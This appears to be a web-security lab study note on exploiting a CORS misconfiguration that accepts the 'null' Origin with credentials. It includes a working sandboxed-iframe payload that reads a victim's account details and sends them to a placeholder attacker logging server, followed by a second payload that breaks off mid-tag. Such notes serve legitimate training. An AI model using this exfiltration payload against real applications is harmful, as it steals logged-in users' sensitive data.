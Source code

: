 - Cross-origin redirects
- Requests from serialized data
- Request using the `file:` protocol
- Sandboxed cross-origin requests

The app may allow the "null" Origin to submit a cross-origin request and view the authenticated response.  Try submitting the following header:

```json
Origin: null
```

This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. 

The malicious code will be within an \<iframe> that will cause the browser to set the Origin header to "null". The attacker now needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Some payloads work, some don't:

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

```html
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="Viewport" content="width=device-width", initial-scale="1.0">
        <title>Document</title>
    </head>
<body>
    <h1>Hello</h1>
    <iframe
sandbox="allow-forms allow-scripts allow-top-navigation"
```